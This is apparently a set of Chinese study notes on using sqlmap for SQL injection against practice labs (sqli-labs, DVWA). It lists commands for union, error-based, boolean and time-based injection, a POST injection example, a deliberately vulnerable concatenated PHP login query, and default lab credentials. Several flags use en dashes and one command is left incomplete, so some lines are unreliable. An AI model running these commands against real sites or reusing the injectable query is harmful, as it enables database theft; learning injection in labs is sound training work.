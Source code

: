 sqlmap -u [目标url] –dbs –batch –threads 10 –technique U

使用sqlmap查看目标网站的数据库库名，忽略错误，开10线程，使用union select注入目标网站。

–technique [注入方式]

E=报错注入

B=布尔型注入

T = 布尔型时间盲注

------

E 报错注入：无法发现报错位，但是数据库出错会出现 此时用报错注入

(error based)

sqlmap -u [目标url] –current-db –batch –threads 10 –technique E

使用报错注入

------

B 布尔型注入：无法发现报错位，数据库闭合破坏也不出现，但是界面上只会出现有和没有东西两种情况（你被勒索了你就眨眨眼）

(booled based)

sqlmap -u [目标url] –current-db –batch –threads 10 –technique B

------

T 布尔型时间盲注：无法发现报错位，数据库闭合被破坏也不出现，界面也没有出现或者消失东西的现象

(time based)

sqlmap -u [目标url] –current-db –batch –threads 10 –technique T -v 3

------

post方面注入：

```
$uname = $_POST['uname'];

$passwd = $_POST['password'];

select username,password from users where username='$uname' and password='$passwd' limit 0,1

sqlmap -u http://sqlilabs.njhack.xyz/Less-11/ --data "uname=admin*&passwd=admin&submit=Submit" --current-db --batch --threads 10 --technique 
```

–data 后面跟的是post的数据

*号标哪，就是让sqlmap打哪

## Dvwa 靶场

用户名admin 密码password
